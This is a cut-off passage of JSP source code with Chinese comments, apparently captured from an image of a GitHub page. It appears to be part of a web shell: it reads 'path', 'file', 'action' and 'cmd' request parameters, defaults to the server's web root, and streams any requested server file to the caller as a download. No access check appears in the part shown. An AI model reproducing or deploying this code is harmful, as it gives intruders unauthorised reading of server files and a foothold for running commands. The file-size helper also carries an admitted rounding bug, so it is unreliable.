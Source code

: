 ```
 }
 return sb.toString();
}
static String convertFileSize(long filesize)
{
 //bug 5.09M 显示5.9M
 String strUnit="Bytes";
 String strAfterComma="";
 int intDivisor=1;
 if(filesize>=1024*1024)
 {
  strUnit = "MB";
  intDivisor=1024*1024;
 }
 else if(filesize>=1024)
 {
  strUnit = "KB";
  intDivisor=1024;
 }
 if(intDivisor==1) return filesize + " " + strUnit;
 strAfterComma = "" + 100 * (filesize % intDivisor) / intDivisor ;
 if(strAfterComma=="") strAfterComma=".0";
 return filesize / intDivisor + "." + strAfterComma + " " + strUnit;
}
%>
<%
request.setCharacterEncoding("gb2312");
String tabID = request.getParameter("tabID");
String strDir = request.getParameter("path");
String strAction = request.getParameter("action");
String strFile = request.getParameter("file");
String strPath = strDir + "\\" + strFile; 
String strCmd = request.getParameter("cmd");
StringBuffer sbEdit=new StringBuffer("");
StringBuffer sbDown=new StringBuffer("");
StringBuffer sbCopy=new StringBuffer("");
StringBuffer sbSaveCopy=new StringBuffer("");
StringBuffer sbNewFile=new StringBuffer("");

if((tabID==null) || tabID.equals(""))
{
 tabID = "1";
}

if(strDir==null||strDir.length()<1)
{
 strDir = request.getRealPath("/");
}

if(strAction!=null && strAction.equals("down"))
{
 File f=new File(strPath);
 if(f.length()==0)
 {
  sbDown.append("文件大小为 0 字节，就不用下了吧");
 }
 else
 {
  response.setHeader("content-type","text/html; charset=ISO-8859-1");
  response.setContentType("APPLICATION/OCTET-STREAM"); 
  response.setHeader("Content-Disposition","attachment; filename=\""+f.getName()+"\"");
  FileInputStream fileInputStream =new FileInputStream(f.getAbsolutePath());
  out.clearBuffer();
```